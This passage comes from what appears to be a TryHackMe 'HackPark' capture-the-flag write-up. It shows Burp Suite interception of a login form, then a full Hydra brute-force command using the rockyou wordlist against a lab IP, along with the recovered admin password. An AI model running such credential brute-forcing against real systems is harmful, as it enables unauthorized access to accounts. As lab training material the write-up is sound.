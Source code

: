 
## Brute-Force Login
To gain access, use Hydra to brute-force the login form. First, intercept the login request with Burp Suite to understand the POST parameters:

![Burp Suite Capture](/assets/TryHackMeRoomsImage/HackPark/4.png)

The form uses a POST request to submit credentials. Run Hydra with the following command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.70.199 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=...&txtUser=^USER^&txtPass=^PASS^&btnLogin=Login:Login Failed"
```

**Result**:
```
[80][http-post-form] host: 10.10.70.199   login: admin   password: 1qaz2wsx
```

---

## Initial Access
Log in to the admin dashboard using the credentials `admin:1qaz2wsx`:

![Admin Dashboard](/assets/TryHackMeRoomsImage/HackPark/5.png)
